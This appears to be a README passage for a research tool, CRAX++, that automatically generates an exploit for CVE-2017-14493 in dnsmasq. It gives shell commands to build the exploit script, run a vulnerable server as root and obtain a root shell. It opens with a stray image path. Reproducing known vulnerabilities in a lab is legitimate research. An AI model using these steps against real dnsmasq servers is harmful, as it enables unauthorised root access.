 ## Exploitation

1. In ~/s2e/projects/sym_socket, set target.

   ```sh
   cd ~/s2e/projects/sym_socket
   ./set-target.sh CVE-2017-14493-dnsmasq-aslr-nx
   ```

2. Edit bootstrap.sh and s2e-config.template.lua in ~/s2e/projects/sym_socket

   > See bootstrap.sh and s2e-config.template.lua in this directory.

3. Launch CRAX++, and after ~150 secs a file named `exploit_0.py` will be generated.

   ```sh
   ./launch-crax.sh
   ```

4. Start dnsmasq as root (server)

   ```sh
   sudo LD_PRELOAD="/home/aesophor/s2e/projects/sym_socket/libc-2.24.so /home/aesophor/libnss_files.so.2" /home/aesophor/s2e/projects/sym_socket/ld-2.24.so    ./target --no-daemon --dhcp-range=fd00::2,fd00::ff -p 5300
   ```

5. Run the exploit script (client) and enjoy the root shell.

   ```sh
   ./exploit_0.py
   ```

   ![](./rce.png)
